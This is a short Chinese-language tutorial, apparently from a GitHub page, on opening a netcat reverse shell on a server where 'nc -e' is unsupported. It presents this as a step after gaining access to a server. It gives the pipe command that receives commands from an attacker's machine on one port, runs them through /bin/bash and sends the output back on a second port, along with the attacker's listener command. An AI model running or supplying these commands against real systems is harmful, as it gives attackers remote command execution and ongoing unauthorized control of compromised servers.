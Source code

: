 ### netcat反弹shell(不支持 nc -e)

#### 应用场景

某些拿到服务器权限之后，想要设置一个反弹shell。当时因为配置原因不支持-e参数。

#### 基础介绍

反弹shell：

```
nc ip port | /bin/bash | nc ip port
```

[![g5dWzn.png](https://z3.ax1x.com/2021/05/19/g5dWzn.png)](https://imgtu.com/i/g5dWzn)

连接攻击机的4444端口，将传递过来的命令交给``/bin/bash``执行然后将结果返回到4445端口。

PC接收netcat命令，想要启动两个监听端口：

```
nc -lvp port
```

[![g5d2Gj.png](https://z3.ax1x.com/2021/05/19/g5d2Gj.png)](https://imgtu.com/i/g5d2Gj)

#### 命令解释

在攻击测试机器上开启两个 nc 进行监听，其中一个作为输入，另一个作为输出。目标机器上  使用管道来重新定向输入输出。

这里在4444端口输入的命令，会在4445端口处显示。

